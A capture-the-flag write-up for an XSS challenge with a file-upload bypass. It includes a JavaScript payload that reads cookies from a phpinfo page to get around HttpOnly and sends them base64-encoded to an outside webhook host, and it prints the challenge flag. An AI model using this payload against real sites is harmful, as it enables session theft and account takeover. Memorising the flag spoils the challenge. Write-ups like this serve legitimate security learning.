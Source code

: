 # XSS 1
`-`

## About the Challenge
We are given a 2 websites (website for testing and bot to get the flag)

## How to Solve?
In the website there is a feature to upload an image file like this

![preview](images/preview.png)

And after we upload a file for example `image.png`, we can access the file by accessing `/uploads/RANDOMCHARACTER/image.png` endpoint. In this chall, we only can upload a file that using `.png` extension. To bypass this whitelist, We need to upload a file with the `.png` extension so the server will read the file as hidden directories.

At first we can get the flag easily and then the admin revise the chall and added more difficulty by adding `HttpOnly` flag on the bot so we need to bypass the `HttpOnly` flag. Luckily there is `phpinfo` file and we can use it to bypass the `HttpOnly` flag. So the payload will look like this

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
var url = '[https://REDACTED/info.php](http://172.174.108.207:90/xss1/info.php)';
req.withCredentials = true;
req.open('GET', url, false);
req.send();

function reqListener() {
var req2 = new XMLHttpRequest();
const sess = this.responseText.substring(this.responseText.indexOf('HTTP_COOKIE') + 1 );
req2.open('GET', 'https://webhook/?data=' + btoa(sess), false);
req2.send()
};
```

And then upload the payload and send the file to the bot and we can get the flag

```
0xL4ugh{Fre333e_Plaestine!!_My_bRUH}
```